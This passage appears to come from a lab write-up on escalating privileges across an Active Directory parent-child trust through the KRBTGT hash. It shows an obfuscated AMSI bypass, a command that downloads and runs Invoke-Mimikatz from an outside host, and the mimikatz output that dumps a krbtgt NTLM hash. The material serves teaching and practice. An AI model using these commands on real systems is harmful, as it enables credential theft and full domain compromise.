 recall that the parent and child domains have a two-way (bidirectional) trust relationship. this means that there are a couple of ways to escalate privileges to another domain within the same forest. i'm going to use the [`KRBTGT` hash](https://www.netwrix.com/how_golden_ticket_attack_works.html) way. 

### dumping the hash

using mimikatz, i can dump the KRBTGT hash from the Nebula Domain Controller:

```sh
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```sh
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : NEBULA / S-1-5-21-771755520-687805270-358672322

RID  : 000001f4 (500)
User : Administrator

RID  : 000001f5 (501)
User : Guest

RID  : 000001f6 (502)
User : krbtgt
NTLM : a3a127f4537798da6586372093fdffb4

RID  : 000001f7 (503)
User : DefaultAccount
```

here's the hash i'm interested in.

```sh
RID  : 000001f6 (502)
User : krbtgt
NTLM : a3a127f4537798da6586372093fdffb4
```


[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname